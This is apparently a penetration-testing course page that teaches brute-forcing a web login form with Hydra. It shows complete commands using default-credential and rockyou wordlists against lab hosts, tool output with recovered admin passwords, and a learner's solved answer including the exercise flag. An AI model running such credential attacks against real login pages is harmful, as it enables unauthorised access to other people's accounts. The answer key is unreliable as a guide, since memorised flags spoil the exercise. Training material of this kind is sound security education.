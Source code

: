 # Login Form Attacks

In our situation, we don't have any information about the existing usernames or passwords. Since we enumerated all available ports to us and we couldn't determine any useful information, we have the option to test the web application form for default credentials in combination with the `http-post-form` module.

***

### Default Credentials

Let's try to use the `ftp-betterdefaultpasslist.txt` list with the default credentials to test if one of the accounts is registered in the web application.

Login Form Attacks

```shell-session
AIceBear@htb[/htb]$ hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

Hydra v9.1 (c) d020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking http-post-form://178.35.49.134:32901/login.php:username=^USER^&password=^PASS^:F=<form name='login'
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```

As we can see, we were not able to identify any working credentials. Still, this only took a few seconds, and we ruled out the use of default passwords. Now, we can move on to use a password wordlist.

***

### Password Wordlist

Since the brute force attack failed using default credentials, we can try to brute force the web application form with a specified user. Often usernames such as `admin`, `administrator`, `wpadmin`, `root`, `adm`, and similar are used in administration panels and are rarely changed. Knowing this fact allows us to limit the number of possible usernames. The most common username administrators use is `admin`. In this case, we specify this username for our next attempt to get access to the admin panel.

Login Form Attacks

```shell-session
AIceBear@htb[/htb]$ hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://178.35.49.134:32901/login.php:username=^USER^&password=^PASS^:F=<form name='login'

[PORT][http-post-form] host: 178.35.49.134   login: admin   password: password123
[STATUS] attack finished for 178.35.49.134 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```

We can try to log in with these credentials now:

![](https://academy.hackthebox.com/storage/modules/57/bruteforcing\_logged\_in\_1.jpg)

**Questions**

Using what you learned in this section, try attacking the '/login.php' page to identify the password for the 'admin' user. Once you login, you should find a flag. Submit the flag as the answer.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 94.237.49.138 -s 49729 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'" 
#[49729][http-post-form] host: 94.237.49.138   login: admin   password: password1
# HTB{bru73_f0rc1n6_15_4_l457_r350r7} 
```

